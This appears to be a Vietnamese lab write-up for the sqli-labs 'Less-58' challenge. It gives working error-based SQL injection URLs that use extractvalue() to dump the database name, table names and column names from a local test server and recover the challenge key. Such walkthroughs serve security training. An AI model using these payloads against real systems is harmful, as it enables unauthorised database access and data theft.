









# Less 58

Ta thấy đề bài cũng tương tư những bài trước. Nhưng ở bài này chỉ cho phép tối đa là 5 request. Nếu quá 5 request thì tên cột và tên bảng sẽ bị reset.



Truyền thử giá trị



Thử một vài giá trị có thể gây ra lỗi



Tôi thấy ở đây đã có lỗi của SQL hiển thị lên màn hình. Dựa vào đây chúng ta có thể khai thác được thông tin bằng cách này.



Show tên DB đang thực hiện thao tác

```
http://192.168.84.233/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select database())))--+
```



Show tên bảng

```
http://192.168.84.233/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = "challenges")))--+
```



Show tên các cột trong bảng

```
http://192.168.84.233/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = "challenges" and table_name="XV0TFYJPTM")))--+
```



Lấy key



Thực hiện submit thành công



Trong bài này số request rất ít nên tôi phải thực hiện reset lại challenge nhiều lần thì tối mới có thể lấy được key.